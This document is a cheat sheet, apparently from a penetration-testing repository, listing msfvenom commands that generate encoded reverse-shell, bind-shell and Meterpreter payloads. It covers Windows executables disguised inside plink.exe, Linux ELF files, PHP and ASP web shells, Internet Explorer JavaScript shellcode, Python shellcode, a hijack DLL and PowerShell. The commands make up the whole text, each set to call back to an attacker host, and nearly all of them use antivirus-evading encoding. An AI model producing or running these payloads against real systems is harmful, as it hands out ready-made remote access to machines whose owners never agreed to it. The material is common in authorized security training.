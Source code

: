 ##[+ WINDOWS ENCODED PAYLOADS ] PORT 443
====CHANGE. IP. AS. NEEDED.====

## WINDOWS/SHELL/REVERSE_TCP [PORT 443]
msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/SHELL_REVERSE_TCP (NETCAT x86) [PORT 443]
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/SHELL_REVERSE_TCP (NETCAT x64) [PORT 443]
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/METERPRETER/REVRESE_TCP (x86) [PORT 443] AT 10.0.0.67:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/METERPRETER/REVRESE_TCP (x64) [PORT 443] AT 10.0.0.67:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_64.exe


## ---===BIND SHELL, ENCODED, ON PORT 1234===---
msfvenom -p windows/shell_bind_tcp LHOST=10.0.0.67 LPORT=1234 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o bindshell_1234_encoded_86.exe

## Code for encoding:
--platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o payload_86.exe

================================================================================
##[+ LINUX ]
#### LINUX/x86/METERPRETER/REVERSE_TCP
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=9997 -f elf >reverse.elf

## NETCAT
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.67 LPORT=1234 -f elf >reverse.elf
================================================================================

## [+ PHP ]
#### PHP/METERPRETER_REVERSE_TCP [PORT 443]
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## PHP/METERPRETER/REVERSE_TCP [PORT 443]
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## PHP/REVERSE_PHP [PORT 443]
msfvenom -p php/reverse_php LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
================================================================================

## [+ ASP]
#### ASP-REVERSE-PAYLOAD [PORT 443]
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp

## OR FOR NETCAT [PORT 443]
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp

================================================================================
## [ + Client-Side, Unicode Payload - For use with Internet Explorer and IE]
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f js_le -e generic/none

- Note: To keep things the same size, if needed add NOPs at the end of the payload.
### A Unicode NOP is - %u9090

================================================================================
===SHELLCODE GENERATION:
================================================================================
--===--
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=80 EXITFUNC=thread -f python -a x86 --platform windows -b '\x00' -e x86/shikata_ga_nai
--===--
================================================================================
## DLL HiJacking - Windows - x64
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll
================================================================================


msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.47.29 LPORT=4444 -f powershell







